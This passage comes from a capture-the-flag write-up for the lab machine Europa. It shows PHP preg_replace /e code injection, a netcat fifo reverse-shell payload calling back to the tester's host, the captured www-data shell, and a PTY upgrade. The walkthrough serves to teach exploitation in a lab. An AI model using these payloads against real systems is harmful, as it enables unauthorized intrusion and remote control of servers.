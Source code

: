 I’ll send this request over to Repeater, and modify it to
`pattern=%2Fx%2Fe&ipaddress=system("id")&text=x`. This will likely call
`preg_replace(/x/e, system("id"), x)`, which will return the output of the
`id` command. On sending, the results are at the top of the page:

![image-20210122083136220](https://0xdfimages.gitlab.io/img/image-20210122083136220.png)

The command output is also captured in place where the output is:

![image-20210122083213463](https://0xdfimages.gitlab.io/img/image-20210122083213463.png)

`system` puts the output out immediately on running, but `preg_replace` is
smart enough to capture that and make the substitution later anyway.

### Shell

To turn this into a shell, I just need to pass in a reverse shell into the
execution. The first few I tried connected back and then just died
immediately. But the netcat fifo reverse shell worked great:

    
    
    pattern=%2Fx%2Fe&ipaddress=system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f")%3b&text=x
    

On submitting, I’ve got a shell as www-data:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.22.
    Ncat: Connection from 10.10.10.22:59368.
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    

`python` isn’t on the box, but `python3` is, so the PTY trick works to get a
good shell:

    
    
    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@europa:/var/www/admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@europa:/var/www/admin$ 
    

There’s only one user, and `user.txt` is world-readable:

    